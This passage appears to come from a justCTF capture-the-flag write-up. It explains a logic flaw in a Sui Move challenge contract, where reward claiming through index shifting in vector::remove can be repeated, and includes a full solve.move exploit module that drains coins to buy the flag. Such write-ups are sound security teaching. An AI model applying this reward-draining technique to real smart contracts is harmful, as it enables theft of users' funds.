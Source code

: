 Not only the `FINISHED` status from `return_home`, but also the `SHOPPING` status is allowed. 
In `vector::remove`, if we delete index 0, index 0 now points to the element that was previously at index 1. There's no check of the power of monster. So we can collect all rewards in the quest vector by killing only the monster at index 0.

![img2.png](/assets/img/2024-06-16-justCTF/Pasted image 20240616211734.png)
It seems we can call `get_the_reward, enter_tavern` function repeatedly. But as I mentioned above, we must send transfer ownership of ticket object to `checkout` function before `return`. So we should call the functions in the following order

1. buy sword
2. fill the vector with monsters until LIMIT (25)
3. kill monster at index 0
4. repeat below
5. enter_tavern
6. buy_shield -> Cheapest. Just to bypass `assert!(total > 0, BUY_SOMETHING);`.
7. get_the_reward
8. checkout -> transfer ownership of ticket

All of the monsters' rewards are lower than the price of a shield, so we can get 537 coins.

`solve.move`
```rust
#[allow(unused, unused_use, unused_variable, duplicate_alias)]
module solve::solve {

    // [*] Import dependencies
    use challenge::Otter::{Self, OTTER, QuestBoard, Vault, Player, TawernTicket};
    public fun solve(
        board: &mut QuestBoard,
        vault: &mut Vault<OTTER>,
        player: &mut Player,
        ctx: &mut TxContext
    ) {
        let mut ticket = Otter::enter_tavern(player);
        Otter::buy_sword(player, &mut ticket);
        Otter::checkout(ticket, player, ctx, vault, board);
        let mut i = 0;
        loop {
            Otter::find_a_monster(board, player);
            i = i + 1;
            if (i >= 25) {
                break;
            }
        };
        Otter::bring_it_on(board, player, 0);
        Otter::return_home(board, player);
        Otter::get_the_reward(vault, board, player, ctx);

        i = 0;
        loop {
            let mut ticket = Otter::enter_tavern(player);
            Otter::buy_shield(player, &mut ticket);
            Otter::get_the_reward(vault, board, player, ctx);
            Otter::checkout(ticket, player, ctx, vault, board);
            i = i + 1;
            if (i >= 24) {
                break;
            }
        };
        let mut ticket = Otter::enter_tavern(player);
        Otter::buy_flag(&mut ticket, player);
        Otter::checkout(ticket, player, ctx, vault, board);
    }
}
```